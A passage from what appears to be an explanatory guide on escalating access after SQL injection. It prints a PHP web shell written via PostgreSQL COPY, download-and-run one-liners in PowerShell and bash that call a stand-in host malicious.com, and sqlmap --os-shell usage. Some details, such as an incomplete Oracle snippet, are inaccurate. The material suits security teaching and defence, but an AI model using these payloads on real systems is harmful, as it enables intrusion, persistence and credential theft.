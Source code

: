 ```sql  
CALL admin_procedure(); -- Runs with root privileges if defined by root  
```  

---

### **5. Writing Malicious Files**  
Attackers create web shells or scripts to maintain persistent access:  

- **PostgreSQL**:  
  ```sql  
  COPY (SELECT 'echo "<?php system($_GET[\'cmd\']); ?>"') TO '/var/www/shell.php';  
  ```  

- **MSSQL**:  
  ```sql  
  BULK INSERT shell FROM 'http://malicious.com/shell.txt' WITH (FIELDTERMINATOR = '\n');  
  ```  

- **Oracle**:  
  ```sql  
  BEGIN UTL_FILE.FOPEN('DIRECTORY', 'shell.php', 'w'); -- Writes a file if directory permissions allow  
  ```  

---

### **6. Lateral Movement via OS Commands**  
Once OS access is gained, attackers deploy tools for further compromise:  

- **Windows**:  
  ```powershell  
  powershell -c IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/reverse.ps1')  
  ```  

- **Linux**:  
  ```bash  
  wget http://malicious.com/exploit.sh && chmod +x exploit.sh && ./exploit.sh  
  ```  

- **Credential Dumping**:  
  Tools like **Mimikatz** (Windows) or **SecretsDump** (Linux) extract plaintext credentials from memory.  

---

### **Tool Assistance**  
Automated tools streamline privilege escalation:  

- **SQLMap**:  
  ```bash  
  sqlmap -u "http://target.com" --os-shell --privileges  
  ```  
  - `--os-shell`: Provides an OS command shell.  
  - `--privileges`: Lists current user permissions.  

- **Metasploit**:  
  Modules like `mssql_payload` exploit SQLi to deliver payloads for reverse shells.  

---